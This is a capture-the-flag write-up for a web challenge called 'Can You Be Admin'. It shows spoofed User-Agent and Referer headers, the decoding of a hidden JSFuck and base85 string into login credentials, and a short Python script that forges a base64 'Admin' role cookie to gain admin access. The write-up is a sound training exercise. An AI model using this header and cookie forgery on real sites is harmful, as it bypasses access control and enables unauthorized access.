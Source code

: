 # Kignht CTF - Can You Be Admin

**The page said**: Only KnightSquad agents can access this page.

**I said**: 
```html
User-Agent: KnightSquad
```
**The page said**: This page refers to knight squad home network. So, Only Knight Squad home network can access this page.

**I said**: 
```html
Referer: localhost
```

Edit two above headers, at the bottom of the page, we get bunch of JSFuck hidden:
```
[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])
```
Ok, let's decode it:
```
F`V,7DIIBn+?CWe@<,q!$?0EpF*DPCA0<oU8RZI/DJ<`sF8
```
Is nonsense right, is hard but my teammate find out, is base 85, remember the format plss:
```
username : tareq
password : IamKnight
```

Log in, we still a normal user, check the cookies, there's a cookie name User_Type with value Normal_User all base64 encode, change Normal_User to Admin, we logged in as admin:

```python
import requests
import base64

url = 'http://can-you-be-admin.kshackzone.com/dashboard.php'

cookies = {
    'PHPSESSID': 'c0bc7a8184ea78364d4b7d8d9828c34a',
    'VXNlcl9UeXBl': base64.urlsafe_b64encode('Admin'.encode()).decode(),
}

r = requests.get(url, cookies=cookies, verify=False)

print(r.text)
```
